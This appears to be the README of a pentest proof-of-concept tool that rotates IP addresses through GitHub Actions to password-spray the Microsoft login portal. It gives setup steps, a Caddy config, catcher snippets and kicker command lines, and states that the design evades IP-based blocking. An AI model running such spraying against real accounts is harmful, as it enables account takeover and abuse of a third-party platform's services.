

# Git-Rotate

Leveraging GitHub Actions for IP Rotation - for more information see the [following blog post](https://research.aurainfosec.io/pentest/git-rotate/).

The `Sprayer` and `Catcher` components are currently configured to target the Microsoft login portal and handle the response data. You'll need to modify these components to handle other targets and the response data received. Perhaps this could be made more modular in the future, but at the moments this is just a proof of concept.

GitHub takes abuse and spam of Actions seriously, and they have a dedicated team to track “spammy users.” I am not liable for any account closures due to breaches of their terms and conditions.

# Overview

The project is divided into three components; the `kicker`, the `sprayer`, and the `catcher`:

- **Kicker:** The kicker is a Python script responsible for creating and populating the workflow runs inside GitHub Actions. When generating the workflow run, it passes the relevant information, such as the target URL, username, password, and the IP address of the catcher. We can use GitHub [secrets](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions) to pass 'sensitive' information to the workflow without exposing it in logs.

- **Sprayer:** The sprayer is a Python script executed by a GitHub Actions workflow run. It is responsible for sending a login request to the target endpoint (e.g., `https://login.microsoft.com/common/oauth2/token`) with a username and a password combination, retrieves the response from the login attempt, and forwards it to the catcher component. An IP address is randomly assigned to the VM executing the workflow run, ensuring that each request is sent with a unique IP address to evade detection.

- **Catcher:** The catcher is a Python Flask web server that receives and processes login response data sent by the sprayer component. It determines the success or failure of the login attempts and logs the data appropriately. Note: [Caddy](https://caddyserver.com/) is used as a reverse proxy in this setup to manage incoming requests and forward them to the Flask web server. It's simple to setup and handles TLS certificates, provides a convenient solution - ensuring secure communication between components.

- The `Target` can be any login endpoint you are performing password spraying against or whenever you are brute-forcing something and wanting to avoid IP-based blocking.

# Getting Started

## Sprayer

Create a new GitHub repository and commit the Sprayer Python Script, Requirements.txt file, and GitHub Workflow YAML file:

```
sprayer
├── .github
│  └── workflows
│     └── sprayer.yml
├── requirements.txt
└── sprayer.py
```

The workflow is configured to run on the `workflow_dispatch` event, meaning it can be triggered using the REST API.

## Catcher

I'd recommend using a secure communication protocol such as HTTPS when sending the login response data from the Sprayer to the Catcher (this is not the default).

Ensure the `Catcher.py` Python script is on the host and install the requirements. 

### With TLS (Recommended):

Use something like [Caddy as a reverse proxy](https://caddyserver.com/docs/quick-starts/reverse-proxy). Here is a sample Caddyfile - change the `path`, `domain name`, and `port` for the Catcher as needed.

```
example.com {
    header {
        -Server
    }
    
    @notWowAmazing {
        not path /wow-amazing
    }

    handle @notWowAmazing {
        respond "Not Found" 404
    }

    handle {
        reverse_proxy localhost:5000
    }
}

```

You can change the interface to bind on to localhost only and change the path:

```
...
@app.route("/wow-amazing", methods=["POST"])
def handle_post_data():
    data = request.get_json()
    username = data.get("username")
...

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
```

Start the Catcher flask web app: 

```
python3 catcher.py
```

### Without TLS (Not recommended):

Bind on all interfaces and change the path:

```
...
@app.route("/wow-amazing", methods=["POST"])
def handle_post_data():
    data = request.get_json()
    username = data.get("username")
...

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

Start the Catcher flask web app: 

```
python3 catcher.py
```

## Kicker

The Kicker script requires a GitHub Fine-grained access token with the following Repository permissions:

```
actions: read & write
secrets: read & write
```




Modify the `config.ini` file with your GitHub account detials.

```
[GitHub]
owner = <your-username>
repo = <your-repo-name>
token = <fine-grained-access-token>
```


Install the requirements for the Kicker Python script and pass the required arguments. For example:

If your catcher is using HTTPS:

```
python3 kicker.py -u user-list.txt -p "Password123" -c https://example.com/wow-amazing -s
```

If your catcher is using HTTP:

```
python3 kicker.py -u user-list.txt -p "Password123" -c http://example.com/wow-amazing
```


# Demo

[](https://www.youtube.com/watch?v=sxo5E6n-T9o)


# Acknowledgements

Thanks to my employer <a href='https://www.aurainfosec.com/'>Aura Information Security</a> for providing time for me to work on this project. 


